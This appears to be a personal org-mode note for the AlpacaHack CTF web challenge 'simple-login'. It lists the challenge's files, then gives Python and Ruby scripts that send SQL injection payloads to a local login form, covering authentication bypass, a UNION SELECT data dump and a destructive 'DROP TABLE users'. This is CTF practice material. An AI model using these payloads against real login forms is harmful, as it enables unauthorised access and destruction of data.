 * AlpacaHack

** TODO simple-login                                                    :web:
:PROPERTIES:
:CATEGORY: web
:END:

- State "TODO"       from              [2025-07-06 Sun 02:12] \\
  not yet
  
#+CAPTION: Directory Structure
#+begin_example
 .
├──  compose.yaml
├──  db
│   └──  init.sql
└──  web
    ├──  app.py
    ├──  Dockerfile
    ├──  requirements.txt
    └──  templates
        ├──  index.html
        └──  login.html
#+end_example

*** COMMENT Exploits

#+begin_src python :tangle exploit.py
  import requests
  from urllib.parse import quote

  url = "http://localhost:3000/login"
  username_payload = "' OR 1/0 -- "
  password_payload = "test"

  encoded_username_payload = quote(username_payload)

  data = {
      "username": encoded_username_payload,
      "password": password_payload
  }

  print("Attempting simple error-based injection (1/0)...")
  response = requests.post(url, data=data, allow_redirects=False)

  print(f"Status Code: {response.status_code}")
  print("Headers:")
  for header, value in response.headers.items():
      print(f"  {header}: {value}")
  print("\nBody:")
  print(response.text)
#+end_src

#+RESULTS:

#+begin_src ruby
   require 'net/http'
   require 'uri'

   # Target application details
   $host = 'localhost' # Replace with your Flask app's host
   $port = 3000       # Replace with your Flask app's port
   $login_path = '/login'

   # Function to send a POST request to the login endpoint
   def send_login_request(username, password)
     uri = URI.parse("http://#$host:#$port#$login_path")
     http = Net::HTTP.new(uri.host, uri.port)
     request = Net::HTTP::Post.new(uri.request_uri)
     request.set_form_data({'username' => username, 'password' => password})

     begin
       response = http.request(request)
       puts "Request with username: '#{username}', password: '#{password}'"
       puts "Status Code: #{response.code}"
       puts "Body: #{response.body.inspect}"
       puts "---"
       return response
     rescue Errno::ECONNREFUSED
       puts "Error: Could not connect to the server at http://#{host}:#{port}"
       exit(1)
     end
   end

   # --- Test Payloads ---

   # Simple SQL injection attempts
   payloads = [
     {"username" => "admin'--", "password" => "anything"},
     {"username" => "admin", "password" => "' OR '1'='1'--"},
     {"username" => "' OR 1=1 --", "password" => "anything"},
     {"username" => "'; DROP TABLE users; --", "password" => "anything"}, # Be extremely careful with destructive payloads!
     {"username" => "admin", "password" => "' UNION SELECT * FROM users --"}, # Might reveal data
     {"username" => "admin", "password" => "` OR `1`=`1` --"}, # Using backticks
     {"username" => "admin", "password" => "\" OR \"1\"=\"1\" --"}, # Using double quotes
   ]

   payloads.each do |payload|
     send_login_request(payload["username"], payload["password"])
   end

   # Test with a valid username and a malicious password
   send_login_request("testuser", "' OR '1'='1'--") # Replace 'testuser' if you know a valid one

   # Test with a malicious username and a valid password
   send_login_request("' OR '1'='1'--", "testpassword") # Replace 'testpassword' if you know a valid one
#+end_src

